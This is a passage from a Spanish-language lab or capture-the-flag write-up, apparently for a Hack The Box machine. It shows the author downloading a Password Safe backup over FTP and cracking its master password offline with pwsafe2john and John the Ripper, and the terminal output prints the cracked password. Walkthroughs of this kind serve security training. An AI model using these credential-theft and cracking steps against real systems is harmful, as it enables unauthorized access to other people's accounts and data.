 Y con ftp si que encontramos algo interesante: 

```bash 
└─$ ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:kali): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||65404|)
150 Opening ASCII mode data connection.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||65411|)
125 Data connection already open; Transfer starting.
100% |************************************************************************************************************************************************|   952       16.02 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (15.85 KiB/s)
ftp> 
``` 

Instalamos `passwordsafe` que es de esta herramienta de gestion de contraseñas a la que pertenece el fichero que acabamos de descargar de fpt
```bash 
sudo apt install passwordsafe

pwsafe
``` 

Esto pide contraseña, pero podemos intentar crackearla con jhon: 
```bash 
└─$ locate john | grep -v "share" | grep "safe"
/usr/bin/pwsafe2john
```


Y crackeamos:
```bash 
┌──(kali㉿kali)-[~/labs-hack/administrator]
└─$ pwsafe2john Backup.psafe3 
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/labs-hack/administrator]
└─$ pwsafe2john Backup.psafe3 > hash
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/labs-hack/administrator]
└─$ john hash -w:/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)     
1g 0:00:00:01 DONE (2025-04-22 03:23) 0.6896g/s 4237p/s 4237c/s 4237C/s newzealand..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
``` 
